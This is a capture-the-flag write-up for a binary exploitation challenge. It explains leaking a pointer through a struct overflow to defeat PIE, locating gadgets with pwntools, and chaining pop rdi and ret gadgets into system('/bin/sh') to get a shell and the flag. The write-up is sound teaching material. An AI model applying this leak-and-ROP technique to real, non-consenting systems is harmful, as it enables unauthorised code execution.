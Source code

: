 # challenge details
category: pwn
author: whywhy
points: i dont remember
solves: 15
# description
Every pwner has had to gain their bearings at least once. Can you gain yours?
# sol
firstly, i check the protections of the file. 
```bash
pwndbg> checksec
File:     /home/syntax/Downloads/bearings check/bearings_check/chal
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
so that means i'll have to leak the addresses if i want my solvescript to work on remote.

looking at the source code, i realise that the struct
```c
struct proving_ground {
    char name[32];
    void* main_ref;
    char pad[8];
    char vuln[32];
};
```

is arranged in a way such that main ref comes right after name. which means in theory that if i overflow the 32 byte buffer in name, i should theoretically be able to leak main_ref. and lo and behold, when i send in 32 bytes or more, some garbled characters pop up, which i know should be my leaked address. i'll then use `context.log_level = 'debug'` in order to get my address.

so that's the main_ref settled, and now i can get all of the other addresses by using main_ref. the addresses that i'll need are the pie base, the `gifts()` function addess, system@plt address, the pop rdi; ret gadget, and just in case, a ret gadget address. so how do i leak these? 

to calculate the pie base, i just use `main_ref - elf.symbols['main']` in order to get it. it should end in 000 or else it's wrong. everything else should be smooth sailing from here. 

the elf file in this case is the local binary. 

i use `pie_base + elf.symbols['gifts']` to calculate my `gifts()` address, `pie_base + elf.plt['system']` to get my system address, `elf.search(b"/bin/sh\x00")` to find my bin/sh offset before using `pie_base + next(binsh_offset)` to get the address of bin/sh. 

the pop rdi gadget is a little more complicated to find, i used
```python
rop = ROP(elf)
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_ret_addr = pie_base + pop_rdi_ret
```
to get it, and i used
```python
ret_gadget = rop.find_gadget(['ret'])[0]
ret_addr = pie_base + ret_gadget
```
to get the ret gadget address. 

okay great, once i've gotten all of my addresses, i can craft my payload.
```python
payload = b'A' * 32
payload += p64(ret_addr)
payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)      # gadget address to control rdi
payload += p64(binsh_addr)       # address of "/bin/sh" string
payload += p64(system_plt)   # address of system@plt
```
the payload is arranged in the order such that it fills the buffer first, then alignts the stack using the ret gadgets, before controlling the rdi register using the pop rdi gadget, then sending in the bin/sh string which will be placed into the rdi register by the gadget, then the address of system@plt which will execute `system("bin/sh")`.

and boom after sending all that, you will get your flag, which is `sctf{N0W_1_C4N_T3LL_T0P_FR0M_B0TT0M}`!
